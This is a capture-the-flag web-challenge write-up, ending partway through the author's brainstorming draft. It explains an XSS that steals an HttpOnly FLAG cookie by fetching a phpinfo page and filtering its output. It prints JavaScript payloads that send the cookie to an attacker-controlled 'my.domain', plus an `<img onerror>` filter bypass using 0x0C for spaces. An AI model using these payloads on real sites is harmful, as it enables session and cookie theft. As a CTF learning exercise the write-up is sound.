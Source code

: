 - The admin bot *will* go to the challenge instance, and then set a flag.
- The "visited" URL will be the challenge instance again, but with a script in the `name` parameter to access `info.php`
- Fetch the cookie `FLAG` out and send it back to our server.

Let's craft our script in "normal" JavaScript first.

```js
fetch("info.php\index.php", { credentials: "include" })
    .then(response => response.text())
    .then(data => {
        const element = Array.from(document.getElementsByClassName("e")).filter(item => item.innerText === "$_COOKIE['FLAG']")[0];
        const value = element.parentElement.children[1].innerText;
        fetch("http:\\my.domain\" + value);
    });
```

In the parameter, we have no access to spaces - so we can't really do anything related to variable assignment. Let's make everything a statement.

```js
fetch("info.php\\index.php", { credentials: "include" })
    .then(response => response.text())
    .then(data => {
        fetch("http:\\\\my.domain\\" + Array.from(document.getElementsByClassName("e")).filter(item => item.innerText === "$_COOKIE['FLAG']")[0].parentElement.children[1].innerText;
    }).catch(e => document.body.innerHTML = e);
```

The only thing left we have to do is URL encode it, and pass it into the `name` parameter! Your server under `http://my.domain/` just need to log all paths requested and you should see the flag - URL encoded too of course.

## Conclusion

This wasn't too hard of a web challenge - but it really took a lot of time for me to figure out all the steps and possible vectors. Took me 6 whole hours from like... 10 AM to 4 PM something just to get it done, and I'm genuinely happy about it! I never kicked harder into hyperfocus mode than solving this.

Attached under here is my original draft when I was brainstorming for it...

```md
## todo
- snoop source code
- query `?name=<string>`, plan is to get xss somehow.
    - this is not sanitized, injecting `<script>` works?
        - `Enhanced_Trim($inp)` trims away `/`, can't close `<script>` tag.
    - tracking pixel? `<img onload="">`?
        - `Enhanced_Trim($inp)` trims away spaces, can't write the `onload` attribute.
        - using 0x0C as a replacement for spaces works.
        - sanity check: `<img%0Conerror%3D"alert("hi")"%0Csrc="">` works as we expected.
        - can't do `fetch("http://some.domain")` because forward slashes are trimmed out.
        - seems like the method is to fetch stuff *in* the server?
        - forward a request from our `TARGET_URL` back to the server, including credentials using `{ credentials: "include" }` as an attempt to leak cookies
            - doesn't work, don't even bother, `HttpOnly` too strong.
        - `info.php` prints the result of `phpinfo()`, would it leak the cookie from the request?
            - fetching from the site using `?name=` throws a 403
            - fetching it from the target url *also* throws a 403?
            - inserting `Host` and `Origin` headers doesn't work.
        - vulnerability in nginx config:
            ```
            location ~ \.php$ {
            root           /usr/share/nginx/html;
            fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
```
